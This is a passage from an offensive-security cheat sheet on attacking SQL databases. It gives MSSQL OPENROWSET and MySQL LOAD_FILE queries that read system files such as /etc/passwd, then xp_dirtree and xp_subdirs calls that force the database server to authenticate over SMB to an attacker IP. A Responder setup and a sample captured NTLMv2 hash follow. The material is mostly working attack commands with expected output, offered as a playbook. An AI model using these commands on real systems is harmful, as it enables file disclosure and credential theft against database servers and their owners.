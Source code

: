 
### 2. Read Local Files

#### MSSQL File Reading
```sql
-- Read system files
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO

-- Expected output
BulkColumn
-----------------------------------------------------------------------------
# Copyright (c) 1993-2009 Microsoft Corp.
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
```

#### MySQL File Reading
```sql
-- Read local files (requires appropriate privileges)
SELECT LOAD_FILE("/etc/passwd");

-- Expected output
+--------------------------+
| LOAD_FILE("/etc/passwd") |
+--------------------------+
| root:x:0:0:root:/root:/bin/bash
| daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

---

## 🕷️ Hash Stealing Attacks

### 1. MSSQL Service Hash Capture

#### Using xp_dirtree
```sql
-- Force SMB authentication to attacker
EXEC master..xp_dirtree '\\10.10.110.17\share\'
GO
```

#### Using xp_subdirs
```sql
-- Alternative method
EXEC master..xp_subdirs '\\10.10.110.17\share\'
GO
```

### 2. Capture Setup

#### Responder Setup
```bash
# Start Responder to capture hashes
sudo responder -I tun0

# Expected capture
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : SRVMSSQL\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:5e3ab1c4380b94a1:A18830632D52768440B7E2425C4A7107...
```
